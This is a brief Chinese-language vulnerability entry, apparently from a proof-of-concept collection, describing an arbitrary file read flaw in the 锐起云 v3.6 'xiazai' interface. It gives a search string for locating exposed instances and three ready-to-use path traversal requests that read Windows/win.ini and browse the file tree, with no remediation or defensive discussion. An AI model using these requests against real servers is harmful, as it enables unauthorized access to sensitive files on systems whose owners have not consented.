

# 锐起云 xiazai 任意文件读取漏洞

## 漏洞描述

锐起云 xiazai 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件。

## 漏洞影响

锐起云 v3.6

## 网络测绘

```
"锐起云"
```

## 漏洞复现

登陆页面


验证POC

```
/dwr/hret/fileTree?filePath=../
/dwr/srecy/xiazai?filePath=../../../../../../../../../../../Windows/win.ini
/dwr/hret/downfile?fpid=../../../../../../../../../Windows/win.ini 
```

